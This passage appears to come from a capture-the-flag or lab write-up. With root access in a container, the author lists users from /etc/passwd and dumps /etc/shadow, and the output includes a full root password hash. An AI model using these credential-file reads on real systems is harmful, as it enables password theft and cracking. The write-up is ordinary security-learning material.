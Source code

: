 ```bash
root@c184118df0a6:~#
```

I checked the `/etc/passwd` file to see what users were on the system

```bash
root@c184118df0a6:/home# cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
root@c184118df0a6:/home#
```

So, there was `root` and `michael`. As `root` I could read both `/etc/passwd` and `/etc/shadow`

```bash
root@c184118df0a6:/home# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

etc/shadow

```bash
root@c184118df0a6:/home# cat /etc/shadow
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
```